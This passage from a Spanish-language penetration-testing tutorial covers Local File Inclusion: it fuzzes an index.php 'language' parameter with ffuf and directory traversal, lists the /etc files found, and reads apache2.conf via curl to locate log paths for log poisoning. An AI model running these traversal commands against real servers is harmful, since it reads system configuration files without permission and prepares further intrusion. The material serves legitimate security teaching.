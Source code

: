 Como vimos en la sección anterior, necesitamos ser capaces de identificar el directorio de logs correcto para poder realizar los ataques de envenenamiento de logs que discutimos. Además, como acabamos de discutir, también puede ser necesario leer las configuraciones del servidor para poder identificar la ruta del webroot del servidor y otra información importante (¡como la ruta de los logs!).

Para hacerlo, también podemos usar la [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, ya que contiene muchas de las rutas de logs y configuraciones del servidor que pueden interesarnos. Si quisiéramos un escaneo más preciso, podemos usar esta [wordlist para Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) o esta [wordlist para Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), aunque no son parte de `seclists`, por lo que necesitamos descargarlas primero. Probemos la wordlist de Linux contra nuestra vulnerabilidad LFI y veamos qué obtenemos:

```r
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

Como podemos ver, el escaneo devolvió más de 60 resultados, muchos de los cuales no fueron identificados con la [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, lo que nos muestra que un escaneo preciso es importante en ciertos casos. Ahora, podemos intentar leer cualquiera de estos archivos para ver si podemos obtener su contenido. Leeremos (`/etc/apache2/apache2.conf`), ya que es una ruta conocida para la configuración del servidor apache:

```r
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```
